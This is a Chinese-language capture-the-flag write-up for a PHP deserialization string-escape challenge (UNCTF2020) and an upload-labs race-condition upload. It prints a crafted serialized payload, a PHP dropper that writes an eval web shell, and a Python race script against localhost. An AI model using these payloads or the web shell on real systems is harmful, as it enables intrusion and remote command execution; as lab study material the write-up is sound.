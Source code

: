 ## UNCTF2020-easyunserialize

一道反序列化字符逃逸的题目

```php
<?php 
error_reporting(0); 
highlight_file(__FILE__);

class a 
{ 
    public $uname; 
    public $password; 
    public function __construct($uname,$password) 
    { 
        $this->uname=$uname; 
        $this->password=$password; 
    } 
    public function __wakeup() 
    { 
            if($this->password==='easy') 
            { 
                include('flag.php'); 
                echo $flag;     
            } 
            else 
            { 
                echo 'wrong password'; 
            } 
        } 
    } 

function filter($string){ 
    return str_replace('challenge','easychallenge',$string); 
} 

$uname=$_GET[1]; 
$password=1; 
$ser=filter(serialize(new a($uname,$password))); 
$test=unserialize($ser); 
?> 
```

这道题把password写死了为1，我们要想办法控制password这个参数

这时就想到了字符逃逸

先序列化一下原来的字符串

```
O:1:"a":2:{s:5:"uname";s:1:"a";s:8:"password";i:1;}
```

然后password改一下

```
O:1:"a":2:{s:5:"uname";s:1:"a";s:8:"password";s:4:"easy";}
```

计算得到需要逃逸的字符数有29个，`challenge`替换成`easychallenage`每次就逃逸4个字符，倍数对不上那怎么办呢

那就直接在后面加多几个字符

构造payload

```
challengechallengechallengechallengechallengechallengechallengechallenge";s:8:"password";s:4:"easy";win}
```

就可以得到flag了

## upload-labs 17（条件竞争）

这道题利用到了一个条件竞争

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}

```

他会把不合法的文件给删除掉，但是如果是多线程还没有处理完我们就访问的话就有可能会绕过防护

先上传一个shell1.php

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST['cmd'])?>');?>
```

利用burp的爆破功能无限上传

![image-20210921120135861](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210921120135861.png)

然后写一个python脚本去访问

```python
import requests
url = "http://127.0.0.1/upload/shell1.php"
url_2 = "http://127.0.0.1/upload/shell.php"
while True:
    html = requests.get(url)
    html_2 = requests.get(url_2)
    if html_2.status_code == 200:  # 判断shell.php是否写入成功
        print("OK")
        break
```

出来ok之后就说明已经上传成功了，利用蚁剑去连接

![image-20210921115940137](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210921115940137.png)


